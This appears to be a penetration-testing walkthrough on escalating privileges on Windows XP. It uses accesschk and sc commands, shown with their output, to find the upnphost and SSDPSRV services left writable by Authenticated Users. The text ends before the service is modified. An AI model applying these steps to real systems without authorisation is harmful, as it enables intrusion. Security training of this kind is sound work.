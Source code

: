 
**Look for vulnerable services we can exploit**
```
C:\Inetpub\Scripts>accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# If we are on a Windows XP SP0 or SP1 OS we will receive the following output

RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS
```
*The output (`SERVICE_ALL_ACCESS`) implies that we have access to two services from which we can edit the service parameters, named `upnphost` and `SSDPSRV`.*

**Closer look at both services**
```
C:\Inetpub\Scripts>accesschk.exe /accepteula -ucqv SSDPSRV

SSDPSRV
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS
        
C:\Inetpub\Scripts>accesschk.exe /accepteula -ucqv upnphost

upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS    
```

```
# upnphost								 
								 
C:\> sc qc upnphost
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Universal Plug and Play Device Host
	DEPENDENCIES       : SSDPSRV
        SERVICE_START_NAME : NT AUTHORITY\LocalService		
								 

# SSDPSRV								 
C:\> sc qc SSDPSRV
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: SSDPSRV
        TYPE               : 20  WIN32_SHARE_PROCESS 
	START_TYPE         : 4   DISABLED
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
        LOAD_ORDER_GROUP   :   
        TAG                : 0  
        DISPLAY_NAME       : SSDP Discovery Service   
        DEPENDENCIES       :   
        SERVICE_START_NAME : NT AUTHORITY\LocalService
```
`upnphost` is the service we are going to use to escalate our privileges. As you can see upnphost has a dependency, it requires `SSDPSRV` to run aswel. If we take a look at the current status of SSDPSRV with the command sc query SSDPSRV we can see that the service is currently `STOPPED`.